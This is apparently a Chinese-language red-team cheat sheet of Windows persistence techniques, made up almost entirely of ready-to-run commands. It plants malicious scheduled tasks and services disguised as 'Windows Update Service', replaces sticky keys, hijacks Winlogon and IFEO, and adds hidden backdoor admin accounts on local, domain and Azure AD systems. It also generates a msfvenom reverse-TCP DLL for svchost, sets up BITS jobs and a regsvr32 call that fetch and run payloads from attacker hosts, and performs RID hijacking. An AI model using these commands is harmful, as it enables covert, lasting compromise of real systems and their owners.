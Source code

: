 ### Windows持久化

1. DLL劫持

参考[DLL劫持](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Readme.md#dll%E5%8A%AB%E6%8C%81)

2. 计划任务

```bash
schtasks /create /tn "MaliciousTask" /tr "C:\Users\Administrator\Desktop\test\payload\file\hi.exe" /sc ONSTART /ru SYSTEM
schtasks /query /TN MaliciousTask /XML
schtasks /create /tn "MaliciousTaskDaily" /tr "C:\Users\Administrator\Desktop\test\payload\file\hi.exe" /sc DAILY /st 09:00 /ru SYSTEM
```

PowerShell:

```bash
$Action = New-ScheduledTaskAction -Execute "C:\malicious.exe"
$Trigger = New-ScheduledTaskTrigger -AtLogon
$Settings = New-ScheduledTaskSettingsSet
$Settings.ExecutionTimeLimit = "PT0S"
Register-ScheduledTask -TaskName "MaliciousTaskLogon" -Action $Action -Trigger $Trigger -User "SYSTEM" -Settings $Settings
```

```bash
schtasks /delete /TN "MaliciousTask" /F
Unregister-ScheduledTask -TaskName "MaliciousTask" -Confirm:$false
```

```bash
SCHTASKS /Change /tn "\Microsoft\Windows\PLA\Server Manager Performance Monitor" /TR "C:\Users\Administrator\Desktop\test\payload\file\hi.exe" /RL HIGHEST /RU SYSTEM /ENABLE
```

3. 创建服务

```bash
sc create MaliciousService binPath= "C:\hi.exe" start= auto obj= LocalSystem DisplayName= "Windows Update Service"
or
New-Service -Name "MaliciousServicePS" -BinaryPathName "C:\malicious.exe" -Description "Windows Update Service" -StartupType Automatic
```

```bash
sc start MaliciousService
sc delete MaliciousService
```

4. 辅助功能

辅助功能的可执行文件位于C:\Windows\System32目录下，辅助功能的可执行文件如下所示:
+	屏幕键盘：osk.exe。用于在屏幕上显示虚拟键盘。在运行中的Windows系统中，可以通过在“运行”对话框中输入osk并按回车键来启动。
+	放大镜：Magnify.exe。用于放大屏幕内容，键入WIN+=可快速启动。
+	轻松访问：Utilman.exe。用于管理各种辅助功能，键入WIN+U可快速启动。
+	讲述人：Narrator.exe。一种屏幕阅读器，用于朗读屏幕上的文本，键入WIN+回车可快速启动。
+	屏幕切换：DisplaySwitch.exe。切换不同的显示模式，键入WIN+P可快速启动。
+	粘滞键：sethc.exe。帮助那些难以同时按下多个组合键（例如 Ctrl + Alt + Delete）的用户。开启粘滞键后，用户可以依次按下每个键，而不是同时按下，键入五次SHIFT可快速启动。

(1)替换可执行文件

```bash
takeown /F C:\Windows\System32\sethc.exe
icacls C:\Windows\System32\sethc.exe /grant Administrators:F
cmd.exe > sethc.exe
```

(2)修改注册表启动项

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "C:\hi.exe" /f
```

(3)Metasploit框架

```bash
run post/windows/manage/enable_rdp
use post/windows/manage/sticky_keys
```

5. 创建账户

```bash
net user backdoor Password123! /add /comment:"Hidden Account" /fullname:"System Administrator"
net localgroup Administrators backdoor /add
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v backdoor /t REG_DWORD /d 0 /f
```

```bash
New-LocalUser -Name "用户名" -NoPassword和Add-LocalGroupMember -Group "Administrators" -Member "用户名"
```

```bash
net user "hacker" "Password123!" /add /domain
net group "Domain Admins" "hacker" /add /domain
Get-ADUser -identity "hacker" -Properties memberof
```

```bash
$PasswordProfile = New-Object -TypeName Microsoft.Open.AzureAD.Model.PasswordProfile
$PasswordProfile.Password = "Password123!"

New-AzureADUser `
    -DisplayName "Snowwolf" `
    -PasswordProfile $PasswordProfile `
    -UserPrincipalName "Snowwolf@contoso.com" `
    -AccountEnabled $true `
    -MailNickName "Snowwolf"

Add-AzureADGroupMember -ObjectId "<ObjectID" -RefObjectId "<RefObject>"
```

6. NetShell Helper DLLs

参考[netsh-helper-dll](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Readme.md#netsh-helper-dll)

7. Winlogon

(1)修改Userinit注册表项

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /t REG_SZ /d "C:\hi.exe, C:\Windows\system32\userinit.exe" /f
```

(2)修改Shell注册表项

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /t REG_SZ /d "C:\hi.exe, explorer.exe" /f
```

(3)PowerShell

```bash
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, C:\hi.exe" -Force
or
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, C:\hi.exe" -Force
```

8. 利用Service DLL在svchost.exe中实现持久化

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f dll > msf.dll
```

```bash
sc create MaliciousService binPath= "C:\Windows\system32\svchost.exe -k netsvcs" start= auto obj= LocalSystem DisplayName= "Malicious Service" depend= RPCSS
reg add "HKLM\SYSTEM\CurrentControlSet\Services\MaliciousService\Parameters" /v ServiceDll /t REG_EXPAND_SZ /d "C:\Users\snowwolf\msf.dll" /f
sc start MaliciousService
```

9. 屏幕保护程序劫持

C:\Windows\System32:

msf.exe > scrnsave.scr

```bash
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\Windows\System32\scrnsave.scr" /f
```

10. BITS Jobs

(1)手动创建持久化

```bash
bitsadmin /create MaliciousBITSJob
bitsadmin /addfile MaliciousBITSJob http://IP地址/payload/msf.exe C:\msf.exe
bitsadmin /SetNotifyCmdLine MaliciousBITSJob C:\msf.exe
bitsadmin /SetMinRetryDelay "MaliciousBITSJob" 30
bitsadmin /Resume MaliciousBITSJob
```

```bash
schtasks /create /tn "BitsJob" /sc minute /mo 1 /ru SYSTEM /tr "C:\Windows\System32\bitsadmin.exe /resume "\MaliciousBITSJob\""
```

(2)无文件持久性

```bash
exploit/multi/script/web_delivery
bitsadmin /create nullfile
bitsadmin /addfile nullfile http://IP地址/payload/msf.exe C:\msf.exe
bitsadmin /SetNotifyCmdLine nullfile regsvr32.exe "/s /n /u /i:http://192.168.0.189:8080/aprYTTt53.sct scrobj.dll"
bitsadmin /SetMinRetryDelay "nullfile" 30
bitsadmin /Resume nullfile
```

```bash
Get-BitsTransfer -AllUsers | Remove-BitsTransfer
```

11. RID劫持

[psexec](https://learn.microsoft.com/zh-cn/sysinternals/downloads/psexec)

```bash
wmic useraccount where name='administrator' get sid
wmic useraccount where name='snowwolf' get sid
reg query "HKLM\SAM\SAM\Domains\Account\Users\000001F4" /s
reg add "HKLM\SAM\SAM\Domains\Account\Users\000003E8" /v "F" /t REG_BINARY /d "310032003300710077006500" /f
reg query "HKLM\SAM\SAM\Domains\Account\Users\000003E8" /s
```

```bash
impacket-psexec snowwolf:密码@IP地址
```

```bash
post/windows/manage/rid_hijack
GETSYSTEM = true
GUEST_ACCOUNT = true
会话ID
Guest账户的密码
```

```bash
impacket-psexec Guest:密码@IP地址
```

12. WMI

[wmi.ps1](权限维持/wmi.ps1)

